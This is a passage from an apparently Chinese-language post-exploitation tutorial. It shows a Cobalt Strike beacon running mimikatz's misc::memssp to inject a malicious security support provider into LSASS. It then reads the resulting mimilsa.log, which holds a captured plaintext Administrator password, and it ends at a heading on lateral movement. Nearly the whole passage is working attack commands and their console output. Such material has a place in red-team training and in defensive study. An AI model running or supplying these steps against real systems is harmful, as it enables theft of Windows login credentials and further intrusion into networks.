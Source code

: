 以上的这些只是`mimikatz`能做事情的一小部分，下面看看`!misc::memssp`的使用。

```
mimikatz !misc::memssp
cd C:\Windows\system32
shell dir mimilsa.log
shell type mimilsa.log
```

详细运行过程：

首先运行`mimikatz !misc::memssp`

```
beacon> mimikatz !misc::memssp
[*] Tasked beacon to run mimikatz's !misc::memssp command
[+] host called home, sent: 1006151 bytes
[+] received output:
Injected =)
```

接下来来到`C:\Windows\system32`目录

```
beacon> cd C:\Windows\system32
[*] cd C:\Windows\system32
[+] host called home, sent: 27 bytes

beacon> shell dir mimilsa.log
[*] Tasked beacon to run: dir mimilsa.log
[+] host called home, sent: 46 bytes
[+] received output:
 驱动器 C 中的卷没有标签。
 卷的序列号是 BE29-9C84

 C:\Windows\system32 的目录

2020/07/23  21:47                24 mimilsa.log
               1 个文件             24 字节
               0 个目录 17,394,728,960 可用字节
```

可以看到是存在`mimilsa.log`文件的，此时待目标主机重新登录，比如电脑锁屏后用户进行登录。

查看`mimilsa.log`文件内容。

```
beacon> shell type mimilsa.log
[*] Tasked beacon to run: type mimilsa.log
[+] host called home, sent: 47 bytes
[+] received output:
[00000000:000003e5] \	
[00000000:002b99a7] WIN-75F8PRJM4TP\Administrator	Password123!
```

成功获取到当前登录用户的明文密码。

# 0x06 横向扩展
